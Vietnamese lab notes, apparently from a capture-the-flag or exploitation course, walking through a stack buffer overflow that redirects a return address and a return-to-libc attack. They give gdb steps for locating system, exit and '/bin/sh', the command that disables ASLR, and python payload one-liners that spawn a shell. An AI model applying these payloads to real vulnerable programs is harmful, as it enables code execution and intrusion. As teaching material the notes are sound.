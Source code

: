     +  A*104 là tới ebp
    + '\x1b\x85\x04\x08' là địa chỉ của myfunc => return address = địa chỉ myfunc
    + '\xe0\x83\x04\x08' đây là giá trị của hàm hệ thống exit, ta sẽ gán nó với biến con trỏ s, nhưng cũng sẽ là return address của myfunc (vì eip luôn nằm trên ebp, nên mặc định biến con trỏ s sẽ dc xem là return address) -> xóa dấu vết
    + 8 bit còn lại là lần của p và q 



`Stack-frame` của myfunc
    |      |    
    |      |
    |      |
    |      |    
    |      |
    |      |
    |ebp cũ|
    |  ebp |ebp(Frame pointer),esp đều trỏ tới đây 
    |   s  |ret(return address) 
    |      |p 
    |______|q
- `vuln`: 0x080485ad
- `myfunc`: 0x0804851b
- `exit` : 0x080483e0 = '\xe0\x83\x04\x08'
    - `gdb` command
    +  ./ctf.out $(python -c "print('A'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08' + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")


/bin/sh -> ra dấu nhắc shell

`Return to libC`
`Idea`: Chèn địa chỉ hàm System trong libC để chèn vào return address,Chèn data vào stack là 1 chuỗi thực thi
- first step: lấy địa chỉ của system(chỉ có khi chạy chương trình, ;libC chỉ load khi chạy chương trình => cần start chương trình), tiếp theo tìm địa chỉ chuỗi /bin/sh, và hàm exit
- `gdb` command
    + sudo sysctl -w kernel.randomize_va_space=0
    + gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2
    + gdb -q vuln.out
    + disas main
    + start
    + p system -> 0xf7e50db0
    + find /bin/sh -> 0xf7f71b2b
    + p exit -> 0xf7e449e0
    + exit
    + ./vuln.out $(python -c "print('A'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x2b\x1b\xf7\xf7')")
        .chèn địa chỉ system vào return address, exit vào dưới (là return address của hàm system), địa chỉ /bin/sh 
